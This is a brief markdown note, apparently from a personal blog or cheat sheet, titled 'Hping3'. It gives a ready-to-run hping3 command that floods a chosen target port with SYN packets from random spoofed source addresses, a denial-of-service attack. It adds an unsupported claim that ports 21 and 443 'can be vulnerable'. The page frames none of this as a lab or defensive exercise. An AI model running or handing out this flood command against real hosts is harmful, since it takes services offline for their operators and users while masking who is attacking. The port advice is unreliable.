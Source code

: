 ```yaml
---
layout: default
title: "|--Hping3 "
date: 2025-07-02 
tags: [networking]
---
```


DoS using *hping3* with random source IP

- `hping3 -c 10000 -d 120 -S -w 64 -p &lt;Port&gt; --flood --rand-source &lt;Target&gt;`
YOU CAN TARGET PORT *21* and *443* because that can be vulnerable

